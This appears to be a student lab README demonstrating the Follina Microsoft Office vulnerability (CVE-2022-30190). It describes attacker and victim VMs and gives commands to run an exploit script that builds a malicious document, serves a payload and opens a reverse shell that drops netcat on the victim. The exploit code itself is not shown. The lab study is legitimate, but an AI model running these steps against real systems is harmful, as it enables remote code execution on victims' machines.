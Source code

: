 # CVE 30190

> Amine TITROFINE | December 17, 2022

--------------

Follina (CVE-2022-30190) is a Microsoft Office zero-day vulnerability that has recently been discovered. It’s a high-severity vulnerability that hackers can leverage for remote code execution (RCE) attacks. It exists when MSDT is called using the URL protocol from a calling application such as Word. An attacker who successfully exploits this vulnerability can run arbitrary code with the privileges of the calling application. The attacker can then install programs, view, change, or delete data, or create new accounts in the context allowed by the user’s rights.


# Environnement 
2 VMs :
- **Attacker Machine**
    - kali-linux-2022.3-virtualbox-amd64 ( [Link To Downlaod](https://www.kali.org/get-kali/#kali-virtual-machines) )
- **Victim Machine**
    - Windows 10 (64 bits) ( [Link To Downlaod](https://drive.google.com/file/d/1YidMOwpc2h_wePDiKWeJ40V6oJz2Lhmo/view) )
    - Microsoft Office 2016 Pro ( [Link To Downlaod](https://drive.google.com/drive/folders/1CbTyNSBva6jAKKMPrp7PZlGfCJsYZmEc) )


# Exploit

```
$ git clone https://gitlab.com/grenoble-inp-ensimag/Secu3A/Devoir1/CVE_2022_30190_amine_titrofine_farah_ben_youssef_walid_lanjri.git

$ cd CVE_2022_30190_amine_titrofine_farah_ben_youssef_walid_lanjri

$ python3 follina.py –r 9999
```

After running the follina.py program a ( **follina.doc** )  will appear, this contain a malicious script .

In order to make easy sharing files with the two Vms, we ll use Python http Server
```
$ python3 –m http.server 8080
```
# Examples

Get a reverse shell on port 9999. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless Antivirus is disabled.**
```
$ python3 follina.py -r 9999
```
Pop `calc.exe`:

```
$ python3 follina.py -c "calc"
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```


